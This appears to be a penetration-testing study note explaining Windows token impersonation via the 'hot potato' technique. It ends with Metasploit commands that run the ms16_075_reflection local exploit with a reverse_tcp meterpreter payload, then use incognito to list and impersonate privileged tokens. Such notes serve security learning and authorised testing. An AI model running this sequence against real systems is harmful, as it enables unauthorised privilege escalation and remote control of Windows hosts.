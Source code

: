
## General

Token impersonation is a technique that allows a user or process to assume the identity of another user or process in order to access resources or perform actions that would not normally be allowed. In the context of Windows operating systems, token impersonation is often used to gain access to resources or perform actions that require higher privileges.

Token impersonation with "hot potato" refers to a technique used in Windows exploitation that involves stealing an authentication token from a privileged process and using it to impersonate a user with higher privileges. This allows an attacker to perform actions that the user would not normally have the permissions to do.

To perform token impersonation with "hot potato," the attacker typically uses a vulnerability in a process that is running with higher privileges to inject code into the process. This code then steals the authentication token from the process and uses it to impersonate the user associated with the token. The attacker can then use this impersonated token to perform actions on the system that would normally require higher privileges.

It's important to note that this technique requires the attacker to already have some level of access to the system, as they need to be able to inject code into a privileged process in order to steal the authentication token. However, once they have successfully stolen the token through the "hot potato" attack, they can use it to escalate their privileges and gain further access to the system.

More info about the hot potato exploit ---> https://foxglovesecurity.com/2016/01/16/hot-potato/

Hot Potato ---> Manual Option
Meterpreter ---> Automated Option


## Commands

Those command should be run in a meterpreter session where you already have initial access to the target

```
# Use Exploit
use exploit/windows/local/ms16_075_reflection
set payload windows/x64/meterpreter/reverse_tcp
show options
set Session X
run

# Check Tokens 
session X
load incognito
list_tokens -u
impersonate_token "TOKEN CHOOSED"
getuid
```